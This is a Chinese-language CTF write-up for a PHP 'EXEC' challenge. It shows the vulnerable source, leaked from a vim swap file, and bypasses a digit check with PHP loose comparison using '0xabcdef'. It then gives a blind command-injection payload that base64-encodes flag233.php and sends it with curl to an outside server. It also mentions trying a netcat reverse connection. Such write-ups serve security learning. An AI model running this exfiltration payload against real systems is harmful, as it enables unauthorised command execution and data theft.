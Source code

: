 ## EXEC
F12 在 html 的 head 标签中发现 `editor="vim"`，显然能下载 `.index.php.swp`：
```php
<?php
/*
flag in flag233.php
*/
 function check($number)
{
        $one = ord('1');
        $nine = ord('9');
        for ($i = 0; $i < strlen($number); $i++)
        {
                $digit = ord($number{$i});
                if (($digit>= $one) && ($digit <= $nine) )
                {
                        return false;
                }
        }
           return $number == '11259375';
}
if(isset($_GET[sign])&& check($_GET[sign])){
        setcookie('auth','tcp tunnel is forbidden!');
        if(isset($_POST['cmd'])){
                $command=$_POST[cmd];
                $result=exec($command);
                //echo $result;
        }
}else{
        die('no sign');
}
?>
```
首先需要一个 GET 参数，其值为 `11259375` 但不能包含 `1-9` 中的数字。注意到这里的弱比较，可以将该数字转为十六进制，恰好为 `0xabcdef`，不包含 `1-9`，因此提交 `?sign=0xabcdef` 可以发现 `no sign` 的提示没有了。

接下来在保留刚才的参数的同时 POST 命令就可以执行了，但是没有回显，猜想是通过 `nc` 把 `flag233.php` 反弹到自己的服务器上，并且需要走 UDP，但是最终没有成功。最终采用了 curl 的方法，把文件内容 base64 编码后放在 url 里向服务器发送请求，并在日志中查看 flag。payload：
```
cmd=data=$(cat flag233.php | base64);curl http://xx.xx.xx.xx?data=$data;
```
在 `access.log` 中即可得到编码后的 `flag233.php`。